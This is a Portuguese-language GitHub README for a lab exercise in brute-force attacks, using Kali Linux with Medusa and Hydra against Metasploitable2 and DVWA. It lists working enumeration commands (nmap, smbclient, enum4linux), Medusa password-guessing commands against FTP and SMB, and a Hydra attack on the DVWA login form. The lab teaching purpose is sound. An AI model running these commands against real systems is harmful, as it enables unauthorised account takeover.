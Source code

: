 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"

Imagens do Projeto

<p align="center">
  <img src="https://github.com/marceloguilherme100/desafio-medusa-kali/raw/main/imagem1.PNG" width="170" alt="Página Inicial 1">
  <img src="https://github.com/marceloguilherme100/desafio-medusa-kali/raw/main/imagem2.PNG" width="170" alt="Página Inicial 2">
  <img src="https://github.com/marceloguilherme100/desafio-medusa-kali/raw/main/imagem3.PNG" width="170" alt="Página Inicial 3">
  <img src="https://github.com/marceloguilherme100/desafio-medusa-kali/raw/main/imagem4.PNG" width="170" alt="Página Inicial 4">
  <img src="https://github.com/marceloguilherme100/desafio-medusa-kali/raw/main/imagem5.PNG" width="170" alt="Página Inicial 5">
</p>




